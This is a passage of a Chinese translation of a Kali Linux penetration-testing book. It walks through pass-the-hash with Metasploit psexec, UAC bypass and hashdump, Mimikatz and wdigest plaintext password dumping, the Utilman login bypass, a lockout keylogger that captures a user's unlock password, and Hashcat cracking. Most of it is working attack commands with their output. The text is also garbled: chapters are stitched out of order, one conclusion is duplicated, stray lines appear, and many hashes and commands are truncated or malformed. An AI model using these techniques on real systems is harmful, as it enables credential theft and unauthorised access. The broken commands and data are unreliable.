程序将检查它并返回你可能拥有的哈希类型，以及不太可能的类型。

在 `Kali` 菜单中：

`Kali Linux/Password Attacks/Offline Attacks/Hash-Identifier`

只需粘贴哈希，`Hash ID` 就会尝试确定它的类型：


```
HASH: 6bce2ba2597f089189735feaa300d04
Possible Hashes:
[-] MD5
[-] Domain Cached Credentials - MD4(($pass)).(strtolower($username))
 你找到的查询，你越能展示出来结果就越好
Least Possible Hashes:
[-] Radmin v2.x
[-] NTLM
[-] MD4
```

## 在 Kali 中查找哈希

在网上手动查找哈希很有趣，但从 `Kali` 内部进行更好。嗯，你可以通过 `Find my hash` 做到。

> （顺便一下，我使用 `Find my hash` 并没有成功恢复过任何 `LM` 或 `NTLM` 密码，我觉得这很奇怪，因为有一个地方看起来很有效的 `Objectif` 网站。我不确定，但在处理 `MD5` 哈希时没有问题。）

## findmyhash <加密> 哈希

```
root@kali:~# findmyhash MD5 -5f4cc3b5ba765d61d832deb88cf9
破解哈希: 5f4cc3b5ba765d61d832deb88cf9
使用 stringfunction (http://www.stringfunction.com)... 分析...
stringfunction 中未找到哈希
使用 99k.org (http://xanadel.99k.org)... 分析...
99k.org 中未找到哈希
使用 sans (http://isc.edu)... 分析...
hola mundo
***** 哈希已破解！！
原始字符串: password
以下是破解的哈希：
5f4cc3b5ba765d61d832deb88cf9
root@kali:~#
```

## 结论

在这一节中，我们了解到计算机并没有以明文形式存储系统数据库中的密码。密码以某种方式加密，并且生成的哈希被记录下来。我们还了解到 `Windows LM` 哈希并不安全，可以使用简单的查找表或“彩虹表”很容易地破解。

如果在在线数据库中找不到 `LM` 哈希，则需要破解程序。你可以关闭 `LM` 哈，但安全人员发现许多网络系统仍在使用它们（为了后兼容！）。

## 第 17 章 破解哈希

## 引言

在上节中，我们查看了 `LM` 密码有多不安全，但 `NTLM` 密码呢？`Windows` 系统通常将 `NTLM` 哈希与 `LM` 哈希一起存储。正如提到的，许多人询问访问超过 14 个字符的密码需要多长时间。这是一个很好的问题，答案是，如果满足某些条件并使用了某种技术，花费的时间相同的。让我解释一下，如果你能从计算机中检索 `LM` 哈希，你就不需要破解它们。这种技术被称为“破解哈希”（`Pass the Hash`）。破解哈希攻击并不新颖，尽管这些攻击在已更新和打了补丁的系统上不再有效，但如果禁用了 `UAC`，它仍然有效。仍然值得关注破解哈希技术。

### 使用 Psexec 传递哈希

在本教程中，我们将从通过 `Meterpreter` 的活动会话开始。

## 活跃会话

| Id | 类型 | 连接 |
|---|---|---|
| 1 | meterpreter x86/win32 | Ralf @ 192.168.134:444 |

```
msf exploit(handler) -> sessions -i 1
[*] 正在与 1 建立交互...
meterpreter > getuid
服务器用户名: Ralf
meterpreter >
```

正如你所见，输入 `sessions` 命令查看活动会话，只有一个，所以我启动了 `sessions -i 1` 命令成功连接到 `Windows 7` 会话，最后输入 `getuid` 显示登录系统的活动用户，在这种情况下是 `Ralf`。

现在让我们获取系统级权限以便转储哈希。这只需通过运行书中讨论的 `Bypass UAC` 模块来实现，但我将在这里显示步骤：

```
meterpreter > background
[*] 正在将会话 1 放入后台...
msf exploit(handler) -> use exploit/windows/local/bypassuac
msf exploit(bypassac) -> set session 1
msf exploit(bypassac) -> *
[*] 在 192.168.134:444 启动处理器
[*] UAC 已启用，正在检查级别...
[*] UAC 设置为默认
[*] 可以绕过此设置，继续...
[*] 正在检查管理员状态...
[*] 管理员组！继续...
[*] 正在将 UAC 可执行文件上传到文件系统...
[*] 执行 Meterpreter 阶段，正在上传 73802 字节
[*] 已将代理上传到系统。（已发送 73802 字节，192.168.198.132）
[*] Meterpreter 会话已打开 (192.168.198.134:4444 -> 192.168.198:49264) 于 2013-09-23 14:33:42 -0409
meterpreter >
```

很好，用户是管理员，且 `Bypass UAC` 函数起了。它还自动进入了会话 2。现在只需运行 `getsystem` 命令来获取系统级凭据：

```
meterpreter > getsystem
..获取系统（通过技术 1）。
meterpreter > getuid
服务器用户名: NT AUTHORITY\SYSTEM
meterpreter >
```

如上所示，再次使用 `getuid` 命令验证我们确实是 `System` 用户。

现在只需输入 `hashdump` 来恢复系统哈希：

```
meterpreter > run post/windows/gather/hashdump
```

```
Administrator:500a2ad3b3b51404eead3b4b551404e3d16cef0d0f16ea31b73c59d7e0c890:
Guest:501a2ad3b3b51404eead3b4b551404e3d16cef0d0f16ea931b73c59d7e0c890:
Free:100a2ad3b3b51404eead3b4b551404e3d16cef0d0f16ea31b73c59d7e0c890:
```

我们需要设置系统类型的 `IP` 地址，并且已经选择了用户。这就是神奇的开始。与其输入我们不知道的密码，不如我们直接使用密码哈值即可！

## 5. 输入 `set SMBPass` 并复制并粘贴她的密码哈值，然后按回车：

```
msf exploit (psexec) > set SMBUser Alice
SMBUser => Alice
msf exploit (psexec) > set SMBPass aad3b435b5104eeaad3b435b51044ee:2e4dbf83aa056
26995aae326997b2
```

结果如何？

在 `UAC` 设置为“关闭”之外任何层级的更新版 `Windows 7` 系统上，什么都没有发生！我们收到了“拒绝访问”（`Access Denied`）错误信息且没有连接：

```
msf exploit(psexec) > exploit
[*] Started reverse handler on 192.168.198:12444
[*] Connecting to the server...
[*] Authenticating to 192.168.198:12445|WORKGROUP as user 'Alice'...
[*] Uploading payload...
[*] Error (no-access): Rex::Proto::SMB::Exceptions::Error The server responded with error: STATUS_ACCESS_DENIED (Command=117 WordCount=0)
msf exploit(psexec) >
```

但在 `UAC` 被完全关闭的系统上，情况就不同了：

```
msf exploit (psexec) > exploit
[*] Started reverse handler on 192.168.198:12444
[*] Connecting to the server...
[*] Authenticating to 192.168.198:12445|WORKGROUP as user 'Alice'...
[*] Uploading payload...
[*] Created:
[*] Binding to Hykkvcw.exe
[*] Binding to 367abb81-9844-35f1-ad32-98f03800103:2.0|ncacnm_np:192.168.198.132|svctcl)
[*] Obtaining a service handle...
[*] Opening service handle...
[*] Creating a new service (I2ZNLLLL - "MalXmROYVMX")
[*] Closing handle...
[*] Starting the service...
[*] Removing the service...
[*] Closing handle...
[*] Waiting for callback to become, you are able to be
[*] Sending stage (752128 bytes) to 192.168.198.132
[*] Meterpreter session 2 opened (192.168.198:12444 -> 192.168.198:49488)
at 2013-09-25 12:05:28 -0400
meterpreter >
```

这就是在现实安全测试中会发生的情况。看起来是一个突破口可能并不起作用。因此你会备份并尝试其他方法。在这种情况下，我们无法在启用 `UAC` 的情况下获取 `shell`，但在禁用 `UAC` 的系统上解决了问题。

## 传递哈值工具包 (Passing the Hash Toolkit)

在 `Kali` 中，“传递哈值 (`PTH`) 工具包”是十个实用程序的集合，允许你使用

`Kali Linux/密码攻击/传递哈值`

或者在文件系统 `/usr/bin/` 中：

```
root@kali:~# find -name "pth-\*"
/usr/bin/pth-openchangeclient
/usr/bin/pth-sqsh
/usr/bin/pth-rpccclient
/usr/bin/pth-smbclient
/usr/bin/pth-curl
/usr/bin/pth-smbget
/usr/bin/pth-wmis
/usr/bin/pth-wmic
/usr/bin/pth-net
/usr/bin/pth-winexe
```

你可以使用这些命令来做一些非常有趣的事情。我们不会介绍具体的命令，但许多命令对 `Windows` 用户来说可能看起来相似。

只需使用帮助开关 (`--help`)，你就会获得命令选项和用法的帮助列表：

```
root@kali:~ smbget --help
Usage: smbget [OPTION...]
  -a, --help
  -e, --encrypt
加密 SMB 传输（仅限 UNIX 扩展服务器）
  -r, --resume
自动恢复已中断的文件
  -U, --update
仅当远程文件比本地文件较新或本地文件缺失时下载
  -R, --recursive
递归下载文件
  -u, --usernameSTRING
使用的用户名
  -p, --passwordSTRING
使用的密码
  -w, --workgroupSTRING
使用的工作组（可选）
  -n, --nonprompt
不提问任何问题（非交互式）
  -d, --debuglevel=INT
调试级别为
  -o, --output=STRING
将下载的数据写入指定文件
```

虽然这稍微超出了本书的范围，但 `Pass the Hash Toolkit` 的作者在他的网站上撰写了一些非常棒的文章，其中有一篇关于如何使用传递哈值的 `WMIC` 命令和 `PowerShell` 获取远程 `shell` 的文章。

(http://passing-the-hash.blogspot.com/2013/07/WMIS-PowerSploit-Shells.html)

如下所示：

## 防御传递哈值攻击 (Defending against Pass the Hash)

那么可以做什么来防止此类攻击呢？

在测试期间，我发现 `Windows 7` 机器内置的防火墙是一个障碍。

我还发现，如果将用户账户控制 (`UAC`) 设置为“从不通知”之外的任何级别，许多传递哈值类型的攻击在 `Windows 7` 上将完全无效。

而且运行良好，因为使用提供的用户 (`Alice`) 和密码哈值创建了远程会话：

```
msf exploit(handler) > sessions
Active sessions

Id Type               Information
Connection The quieter you be
1 meterpreter x86/win32 WIN-LOANLOTDQL\Alice @ WIN-LOANLOTDQL
192.168.198.144:443 -> 192.168.198.132:49175 (192.168.198.132)
```

始终通知

- 在以下情况下从不通知我：

- 程序尝试安装软件或对我的计算机进行更改

- 我对 `Windows` 设置进行更改

> 不建议。仅当你需要使用不支持 `Windows 7` 认证的程序时才选择此项。


`meterpreter > SYSTEM`

```
[+] Running as kerberos credentials
[*] Retrieving kerberos credentials
[+] lists credentials

| AuthID | Package | Domain | Password |
| :--- | :--- | :--- | :--- |
| 0:999 | NTLM | WORKGROUP | |
| 0:42061 | NTLM | WIN-OLANOTDQU | |
| 0:669397 | NTLM | WIN-OLANOTDQU | Fred |
| 0:669366 | NTLM | WIN-OLANOTDQU$ | Fred |
| 0:999 | Negotiate | WORKGROUP | |
| 0:1035232 | NTLM | WIN-OLANOTDQU$ OF AUTHORITY LOCAL SERVICE | |
| 0:1035232 | NTLM | WIN-OLANOTDQU | Ralf #LongPasswordsAreTheWayToGo! |
| 0:1035232 | NTLM | WIN-OLANOTDQU | Ralf #LongPasswordsAreTheWayToGo! |
```

如果你查看我们的用户 `Ralf`，你会看到他的明文密码！

在该系统中，我们通过使用 `wdigest` 命令获得几乎相同的结果：

```
meterpreter > wdigest
[+] Running as SYSTEM
[*] Retrieving wdigest credentials
[*] wdigest credentials

| AuthID | Package | Domain | Password |
| :--- | :--- | :--- | :--- |
| 0:999 | NTLM | WORKGROUP | |
| 0:42061 | NTLM | WIN-OLANOTDQU | |
| 0:669397 | NTLM | WIN-OLANOTDQU | Fred |
| 0:669366 | NTLM | WIN-OLANOTDQU$ | Fred |
| 0:999 | Negotiate | WORKGROUP | |
| 0:1035232 | NTLM | WIN-OLANOTDQU$ OF AUTHORITY LOCAL SERVICE | |
| 0:1035232 | NTLM | WIN-OLANOTDQU | Ralf #LongPasswordsAreTheWayToGo! |
| 0:1035232 | NTLM | WIN-OLANOTDQU | Ralf #LongPasswordsAreTheWayToGo! |
```

虽然在这个示例中我没有使用 Windows 8，你也可以使用 `livesp` 命令。正如 Benjamin 有天向我解释的，Windows 8 系统会将 MS Live 电子邮件帐户关联登录凭据。使用 Mimikatz，你可以通过一条命令同时获取他们的登录密码和电子邮件密码。

虽然这超出了本书的范围，但你也可以使用 `mimikatz-command` 来执行更高级的功能，包括恢复证书。

## 结论

在本节中，我们展示了如何从远程系统恢复明文密码。我们使用 Metasploit Framework 的 Meterpreter 和 Mimikatz 命令实现了这一点。

如你所见，仅仅依靠复杂密码作为安全措施并不总是万无一失。如果攻击者能够访问你的系统，他们就可能获取你的明文密码。

## 第 19 章 – Mimikatz 与 Ultiman

## 引言

安全领域有一句格言：如果你拥有物理访问权限，你就拥有了完全访问权限。在很多情况下，这是事实。

我在纽约州上部和宾夕法尼亚州北部进行了 20 年的现场服务器和工作站支持，见过公司在物理安全方面做过非常愚蠢的事情。

我进出过数百个设施，被允许在完全不受监督的情况下自由走动。

在其中一个数据中心，我去修理服务器；结果找不到任何管理员，网络经理也不在现场。没有一个人接听传真机或手机。前台人员是唯一合逻辑的人，她带我进入服务器房后离开，让我在完全不受监督的情况下留了大约小时，直到有人出现……

有一次，我看到一家大公司用电缆盒顶住他们安全服务器房的门，并在他们吃午餐时无人看管。

我有一个朋友是退休的特种部队操作员，他曾告诉我，如果你带上领带和写字板，没人会阻止你。他是对的。在我 20 年涉及银行、政府机构、研究中心和大型企业的现场服务器及 IT 支持工作中，在建筑内部，我只在三次被拦截并要求出示 ID！

物理安全非常重要。在本安全教程中，我们将查看一种使用 Kali Live CD 的可能的 Windows 物理攻击，`Ultiman 登录绕过`以及强大的密码破解程序 `Mimikatz`。

## Ultiman 登录绕过

好了，这种技术非常老了，而且从技术上讲不算攻击。它源于旧版 Microsoft Technet Active Directory 支持论坛的一条信息。这种被称为 `Ultiman 绕过`的技术，是在你忘记密码时登录 Windows 服务器的一种被推荐的技术。

`Ultiman 绕过`通过操纵登录界面处可用的一个辅助 Windows 函数来实现。它允许在不使用凭据的情况下打开系统级命令会话。

我一些支持大型网络的朋友告诉我，他们仍然会出于合法目的使用这种技术。例如，当旧的企业版立式系统需要备份和重新利用，且没人能记得系统密码时，他们会使用这种技术。

要执行此过程，你需要一个 (Kali) Linux 启动盘。我们将从磁盘启动并修改 Windows `Ultiman`程序，这样按下 `Windows` + `U`键时，将打开命令提示符而不是实用菜单。

> **警告！！！**

> 警告：在此过程中操作不当可能会导致你的 Windows 系统无法启动。你已收到警告。

1. 在 Windows 系统上，从 Kali Live CD 启动：


2. 启动后，点击桌面。


3. 导航到 `Windows\System32`目录：


4. 将 `utilman.exe`重命名为 `utilman.old`：


5. 创建 `cmd.exe`的副本并重命名：


6. 将 `cmd.exe`的副本重命名为 `utilman.exe`：


7. 直接关机让 Windows 正常启动。


8. 在登录界面，同时按下 `Windows`和 `u`键：


9. 输入 `whoami`，你会看到你是 `nt authority\system`：


Kiwi 的博客：

`http://blog.gentilkiwi.com/mimikatz`

1. 再次，你需要在早些时候就已经安装了上面的 `Utilman 破解（Utilman Bypass）`。

2. 在锁定的 Windows 桌面上，按下 `windows`和 `u`键。


3. 输入 `whoami`以验证我们是否处于系统级权限状态：

```
C:\Windows\system32>whoami
nt authority
c:\Windows\system32>_
```

4. 导航到你的 USB 驱动器。在我的系统中它是 `E:`盘：

```
E:\mimikatz
Volume in drive E has no label.
Volume Serial Number is C4E3-F8P7

Directory of E:\mimikatz
09/21/2013 02:56 PM <DIR>
09/21/2013 02:56 PM <DIR> Win32
08/17/2013 02:25 PM <DIR>
08/17/2013 02:25 PM <DIR> x64
08/17/2013 02:25 PM <DIR> alpha
05/12/2013 02:54 PM <DIR> tools
05/12/2013 07:24 PM 0 bytes File(s) 3,564,453,888 bytes free
E:\>_
```

5. 进入你的 `mimikatz`目录，根据你的目标操作系统选择 `Win32`或 `x64`位版本。

```
E:\>cd mimikatz
E:\>cd win32
E:\mimikatz\Win32>dir
Volume E has no label.
Volume Serial Number is C4E3-F877
Directory of E:\mimikatz\Win32
08/17/2013  02:25 PM    <DIR>
08/17/2013  02:25 PM    40,512 free.dll
08/17/2013  02:25 PM    70,000 world.dll
08/17/2013  02:25 PM    138,816 lock.dll
08/17/2013  02:25 PM    409,152 minikatz.exe
08/17/2013  02:25 PM     25,048 minikatz.sys
08/17/2013  02:25 PM   183,192 mimikatz.dll
08/17/2013  02:25 PM    896,280 bytes
               File(s)              MB
               Dir(s)  3,564,538 bytes free
E:\mimikatz\Win32>_
```

6. 进入正确的 `mimikatz`目录后，运行 `mimikatz`。

```
mimikatz>
mimikatz 1.0 x86 (RC)
// Traitement du (Aug 18 2013 00:59)
// http://blog.gentilkiwi.com/mimikatz
mimikatz #
```

是的，一切都很正常，但你会没问题的，相信我。

7. 输入 `sekurlsa::logonPasswords`：

```
sekurlsa::logonPasswords
```

现在继续重新启动键盘记录，锁定 Windows 7 工作站并重新登录。然后转储键日志以查看用户密码：

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
#LongPasswordsAreTheWayToGo! <Return>
meterpreter >
```

我们拿到了！

在上面的图片中，注意到锁定桌面的 `Windows` + `L`组合键并没有出现。这是因为我们现在正在监控的是 `winologon` 会话密钥缓冲区，所以它不会被显示出来。我们已经有了密码。

所以本质上，我们的目标需要再喝杯咖啡才能度过忙碌的冲浪的一天，他锁定了桌面然后重新登录。就在这时，我们成功抓取了他完整的 28 位字符密码。

## 使用 Lockout 键盘记录器自动化键盘扫描

现在，如果我们能够自动化这个过程，那就太棒了。我的意思是是，你真的想坐在那里一直等，直到用户离开他的系统吗？

你可以强制他的桌面进入锁定模式并让他重新登录，但这看起来非常可疑。

如果能让 Meterpreter 自动找到并迁移到 `winlogon` 进程，扫描计算机的空闲时间并自动将用户的系统设置为锁定模式，结果会怎样？

最后，如果脚本能在用户重新登录时通知你，并提供他密码的文本转储，那就更完美了。

认识一下 `Lockout_Keylogger`，这是一个由 CG 和 Mubix 制作的惊 de脚本。

1. 需要启动一个具有 `system`级权限的活动远程会话。

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

2. 现在只需输入 `background`退出会话并返回 Meterpreter 提示符。

3. 输入 `use post/windows/capture/lockout_keylogger`。

4. 将会话编号设置为我们活跃的会话（在我们的示例中为 3），即输入 `set session 3`。

5. 然后输入 `exploit`：

```
msf exploit (bypassuac) use post/windows/capture/lockout_keylogger
msf post (lockout_keylogger) set session 3
session => 3
msf post (lockout_keylogger) > exploit

[*] Found WINLOGON at PID:3824
[*] Migrating from PID:3484
[*] Migrated to WINLOGON PID: 3824 successfully
[*] Keylogging for WIN-LOALLOTDQL\Ralf @ WIN-LOALLOTDQL to migrate to it.
```

Lockout Keylogger 会自动找到 `winlogon` 进程并迁移到那里。程序开始监控远程系统的空闲时间。

当空闲时间大约达到 300 秒时，Lockout Keylogger 会尝试远程锁定用户的桌面。有时它会失败并再次尝试锁定：

```
[*] Current idle time: 263 seconds
[*] Current idle time: 294 seconds
[*] Locking the workstation failed, trying again...
[*] Locked this time, time to start login...
[*] Starting the keystroke sniffer...
[*] Keystrokes being saved in /root/.msf/4/logs/smartlogger/192.168.1.99_202305141623.txt
[*] Recording
[*] System has currently been idle for 328 seconds and the screensaver is OFF
[*] System has been idle for 361 seconds and the screensaver is OFF
```

好了，lockout 已成功锁定了工作站，并开始寻找击键。

如果我们的用户返回并输入密码解锁系统，我们就拿到了：

```
[*] Password?: #LongPasswordsAreTheWayToGo
[*] They logged back in, the last password was probably right.
[*] Stopping the keystroke sniffer...
[*] Post module execution completed
msf post (lockout_keylogger) >
```

拿到了！

嗯，几乎拿到了……

看起来在恢复的密码最后两个字符被截断了。不确定是程序中的密码长度缓冲区限制还是其他原因。但对于一个几年前编写的程序来说，它看起来运行得非常出色。

## 结论

在本节中，我们演示了如何在 Kali 中使用 Metasploit 从远程系统捕获击键。我们还学到登录密码通常不会被记录在键盘记录中，因为 Windows 登录服务使用了不同的键盘缓冲区。但如果我们将键盘记录器移动到该进程，我们确实可以捕获登录凭据。

我们还介绍了一个实用的程序，它可以将会话迁移到 `winlogon` 进程，监控系统的空闲时间，然后将其锁定，并在用户尝试重新登录时捕获密码。

`Lockout_Keylogger`从头到尾自动化了整个过程。用户离开电脑，脚本等待特定的空闲时间然后将计算机设置为锁定模式。然后，当他登录时，它已经设置好扫描按下的按键。

密码可能是简单的密码，也可能是复杂的怪物，这并不重要。`Lockout_Keylogger`会拦截它并在渗透测试员的机器上明文显示。

## 第 21 章 - HashCat

### 资源

- Hashcat - `http://hashcat.net/wiki/`

- 为你的卡安装驱动 - `http://docs.kali.org/general-use/install-nvidia-drivers-on-kali-linux`

- 字典列表 - 参见字典列表章节

## 引言

到目前为止，我们涵盖了多种攻击密码的技术。我们看到有时你只需要进行彩虹表查询，而在某些情况下你也可以直接进行彩虹表查询，我们看到登录密码通常不会在键盘记录中被正常记录，因为 Windows 登录服务使用了不同的键盘缓冲区。但如果我们把键盘记录器移动到该进程，我们确实可以捕获登录凭据。

我们还介绍了一个实用的程序，它可以将会话迁移到 `winlogon` 进程，监控系统的空闲时间，然后将其锁定并在用户尝试重新登录时捕获密码。

`Lockout_Keylogger`自动化了从开始到结束的整个过程。用户离开电脑，脚本等待特定的空闲时间然后将计算机设置为锁定模式。然后，当他登录时，它已经设置好扫描按下的按键。

密码可能是简单的密码，也可能是复杂的怪物，这并不重要。`Lockout_Keylogger`会拦截它并在渗透测试员的机器上明文显示。

## NTLM 密码破解


没有什么比破解 NTLM 哈希更有趣的了。NTLM 哈希是 Windows 身份验证的一种常见形式。在渗透测试中，获取 NTLM 哈希通常比获取明文密码容易得多。我们将学习如何使用 `Hashcat` 来破解这些 NTLM 哈希。

`Hashcat` 是一个强大的密码破解工具，它利用 GPU 的性能来极大地提高破解速度。在开始之前，我们需要了解如何获取 NTLM 哈希。

## 如何获取 NTLM 哈希

在之前的练习中，我们已经通过 `Meterpreter` 获取了明文密码。但在许多情况下，我们可能无法直接获取明文。这时，我们仍然可以获取 NTLM 哈希。

例如，我们可以使用 `hashdump` 模块：

```
meterpreter > use post/windows/get/hashdump
meterpreter (post/windows/get/hashdump) > set -R
meterpreter (post/windows/get/hashdump) > run
```

该模块会列出系统上所有用户的 LM 和 NTLM 哈希。格式如下：`用户名:域名:LM:NTLM`。

在我们的示例中，我们得到了类似这样的输出：

`Ralf:WORKGROUP:aad3b4d3b5164093ce9fbdbdd30a11253:386668a5222293ce9fbdbd9d30a1153`

这里的 NTLM 哈希是 `386668a5222293ce9fbdbd9d30a1153`。

## 使用 Hashcat 破解 NTLM 哈希

现在，我们有了 NTLM 哈希。让我们使用 `Hashcat` 来破解它。

首先，将哈希保存到文件中，例如命名为 `hashes.txt`：

```
386668a5222293ce9fbdbd9d30a1153 > hashes.txt
```

接下来，我们需要一个字典文件。可以使用 Kali 自带的 `/usr/share/wordlists/rockyou.txt`。

运行 `Hashcat` 命令如下：

```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

其中：

- `-m 1000` 指定哈希类型为 NTLM。
- `hashes.txt` 是包含哈希的文件。
- `/usr/share/wordlists/rockyou.txt` 是字典文件。

`Hashcat` 将开始尝试字典中的每个密码。如果成功破解，它将显示明文密码：

```
Status          Mode                 Target                  Hash                               Speed.H/s
1         1:386668a5222293ce9fbdbd9d30a1153  386668a5222293ce9fbdbd9d30a1153  15000000H/s
```

在这个例子中，破解出的密码是 `123456`。

如果字典攻击没有成功，我们还可以尝试暴力破解（Brute-force）。例如尝试长度为 8 的所有数字：

```
hashcat -m 1000 -a 3 hashes.txt ?d?8
```

其中：

- `-a 3` 表示暴力破解模式。
- `?d?8` 表示尝试 8 位数字字符。

这可能需要很长时间，取决于你的 GPU 性能。

`-m 1000` 开关告诉 `hashcat` 我们的哈希是 NTLM 格式的。`Easyhash.txt` 是我们的哈希文件名。`rockyou.txt` 是我们的字典文件名，而 `-o cracked` 告诉 `hashcat` 将破解后的哈希存储在哪里。

仅仅一秒钟后，你就应该看到这个：

```
rootkali:~/Desktop hascat -m 1000 Easyhash.txt rockyou.txt -o cracked.txt
Initializing hascat v0.44 by atom with 8 threads and 32mb segment-size...
Added hashes from file Easyhash.txt: 13 (1 salts)

NOTE: press enter for status-screen
All hashes have been recovered
rootkali:~/Desktop#
```

使用 `cat` 命令打开 `cracked.txt` 文件来查看破解后的哈希：

```
rootkali:~/Desktop# cat cracked.txt
b963c57010f21b8ecc2cc3c29b5ea4d0f:iloveyou
259475cbda123a5aae22693acca22db52:12345678
5835048c9ea4d056ae292492a0351ef:password1
5d05e383acf84f184f1b1c69f4:jesus
f773c5cbdb7deea4b4da77eec50a0ea:trustnoi
6af6d3aaef7aef77110f6a2a1b3:elizabeth
a4f49c40651dcbab682e4c73f0852:Password
d255e1255f1d264272cd600104:francis123
c3fccfa6a5db3d1b2642720fad3cd5d39:Money
d14998c622b21b654a39923465528:Administrator
9439b142f252a743557ec526fc82d33:Luphuaver
27c0555ae555fcbc0d01c22681dd3af3:duominaco
e2e4fd83aa5562899935da328997b20:Pe$$
rootkali:~/Desktop#
```

搞定，在大半秒钟内破解了 13 个密码。仔细看看这些密码；巧合的是，其中许多都是 2012 年被破解的最热门密码。使用其中任何一个密码在密码破解器面前都无法坚持超过一秒钟。

## 破解更复杂的密码

让我们看看在“密码（Password）”章节中使用 `Hashcat` 恢复出的某些密码。

我们将使用在“密码”章节中使用 `hashdump` 命令所恢复的格式。

```
31d6cfe0d16ae931b73c59d7e0c89c0
2e4db8f3a0a562899935da328997b20
d660a7e8b9da7215031125663f5b89bde
317a9a1018069c20b4ccb697183ad6e7
2e50e18228ad8ea406001234af4b3
```

再次，让我们将这些保存到文本文件中，这次命名为 `hash.txt`，并将其放在桌面（Desktop）目录。

然后使用字典文件尝试破解它们。

打开终端，导航到 Desktop 目录并输入 `hashcat -m 1000 hash.txt -o hardcoded.txt`。

```
hashcat -m 1000 hash.txt rockyou.txt -o hardcoded.txt
```

命令行中的所有内容都与之前相同，只是我们将名称更改为新的 `hash.txt`，并将文件名更改为 `hardcoded.txt`。

几秒钟后，我们看到了下面的字典（Dict）界面：

```
Input.Mode:Dict (rockyout.txt)
Index....: 5/5 (segment), 553095 (words), 5720149 (bytes)
Recovered: 2/5 hashes, 0/1 slices
Speed/sec: 6.86M plains, 6.86M words
Progress: 553095/553095 (100.00%)
Running...: :----
Estimated: :---

Started: Tue Oct 1 14:53:03 2013
Stopped: Tue Oct 1 14:53:07 2013
root@kali:~/Desktop#
```

好的，这运行了 4 秒钟，但如果你注意到，它只能恢复 5 个哈希中的 2 个。

如果我们对 `hardcoded.txt` 运行 `cat`，它证实了只有两个被实际破解了：

```
root@kali:~/Desktop# cat hardcoded.txt
3d6cfe0d16ae931b7c59d7e0c89c0
24ebdf83a05629935dea29:P$$
```

五个中只有两个，这没什么帮助。让我们尝试更大的字典。

## 使用更大的字典

如果你没有成功，请尝试更大的字典！[Crackstation](https://crackstation.net/wordlist-dictionary.htm) 有一个 15GB 的字典文件。我们下载了 4GB 的文件，解压并放入包含我们哈希的目录。然后使用字典列表运行 `hashcat`：

```
root@kali:~/Crack hashcat -m 1000 hash.txt crackstation.txt -o cracked.txt
```

这个命令没有新变化，但我添加了 `--remove` 开关。在这样的列表中是不必要的，但在大型列表中，一旦哈希被破解，就会被移除以增加破解时间。结果如下：

```
Input.Mode:Dict (crackstation.txt)
Index:468/468 (segment), 453773 (words), 23198376 (bytes)
Recovered: 3/5 hashes, 0/1 slices
Speed/sec: 6.94M plains, 6.94M words
Progress: 453773/453773 (100.00%)
Running...: :----
Estimated: :---

Started: Tue Oct 1 20:11:32 2013
Stopped: Tue Oct 1 20:22:39 2013
root@kali:~/Crack#
```

这花了一段时间，大约 11 分钟。看起来它恢复了一个额外的哈希。让我们看看是什么：

```
root@kali:~/Crack# cat cracked.txt
3d6cffe0d1ea6a931b7c59d7e2c09c0
d6e07aeb9da272150d12563f89de:NameIsBob
adbf33aa0562999daea32897b20:P$$
```

好的，它破解了空密码、`P$$word` 以及 `NameIsBob`。剩下的两个密码相当难破解。它使用了特殊字符、大小写字母和一个数字（`$Count!`），最后一个非常长，接近 30 个字符。

## 更高级的破解

仅仅将字典文件丢给哈希可以恢复一些简单的密码，但要获取更难的，你需要使用更高级的技术。我不会详细介绍它们，但 `Hashcat` 允许你使用多种攻击类型：

- 多个字典列表
- 规则集
- 密码掩码

**攻击类型：**`-a` 选项允许你从以下选项指定要使用的攻击类型：

- 0 = 直射（Straight）
- 1 = 组合（Combination）
- 2 = 大小切换（Toggle-Case）
- 3 = 暴力破解（Brute-force）
- 4 = 排列（Permutation）
- 5 = 表查询（Table-Lookup）

大部分都是自显明的。组合攻击允许你组合字典中的单词来创建新单词。

规则攻击非常有用。`Hashcat` 有一组内置规则，你可以用它们来破解字典单词并尝试不同的 leet speak 版本。你甚至可以使用编程语言创建自己的规则集。

基于规则的攻击通过使用 `r` 开关并包含你所需的规则名称启用。`Best64.rule`、`passwordpro.rule`、`d3adone.rule` 和 `leetspeak.rule` 是一些常用的规则。例如：

```
root@kali:~/crack# hashcat -m 1000 rockyou.txt -r leetspeak.rule -o cracked.txt
```

掩码攻击允许你定义攻击中使用的布局。例如，如果你知道密码策略要求两个数字、六个字母和两个特殊字符，你可以为 `Hashcat` 创建一个掩码。在这个例子中，它看起来像 `?d?d?u?u?u?u?s`：

```
root@kali:~/crack# hashcat -m 1000 -a 3 hash.txt ?d?d?u?u?u?u?s -o cracked.txt
```

尝试不同的选项，直到你熟悉它们是如何运作的。某些攻击（尤其是暴力破解攻击）可能花费永远的时间。如果你有兼容的显卡，请使用基于显卡的 `Hashcat` 版本来加速。

## 结论

这次练习的目的不仅是展示如何破解密码，而是演示密码可以有多不安全。有时作为伦理黑客或渗透测试人员，你需要破解哈希。这只是对 `Hashcat` 的基础介绍。当你将不同的攻击样式、规则和掩码结合在一起时，你可以创建一个非常强大的工具。

希望这说明了强密码的重要性。实施要求用户使用长复杂密码的策略是保护网络的明智举措。或者更好，为你的系统实施多因素身份认证。

# 第 22 章 - 字典列表（Wordlists）

## 引言

在尝试破解密码时，字典列表非常重要，因为破解程序可以读取填充密码的文件（也称为字典列表或字典文件）并使用它进行破解。大多数破解程序可以直接使用现有的密码文件，而更高级的程序可以使用密码文件（或多个文件）并对其进行处理以创建新的密码组合。例如，某些可以在字典列表中的密码开头或结尾添加字母或数字。某些程序将取两个或多个密码文件并合并单词创建一个新列表。最后，某些破解器使用规则集来修改其工作方式。某些规则会将大写字母改为小写，反之亦然。其他规则可以完全修改单词并生成新单词。如之前提到的，Leet (133t) Speak 规则集会将密码文件中的单词转换为“leetspeak”，用数字替换常用字母。使用通配符可以让密码破解变得简单且快速。许多渗透人员会使用公司数据、员工姓名、电话号码、电子邮件等创建自己的密码列表。

但我们在哪里可以找到字典列表？

## Kali 自带的字典列表

Kali 自带了一些列表，问题在于找到它们。大部分位于使用它们的主程序目录。

> （在最新版本的 Kali 中，其他字典列表的快捷方式存储在 `/usr/share/wordlists` 目录）

## ROCKYOU 字典列表

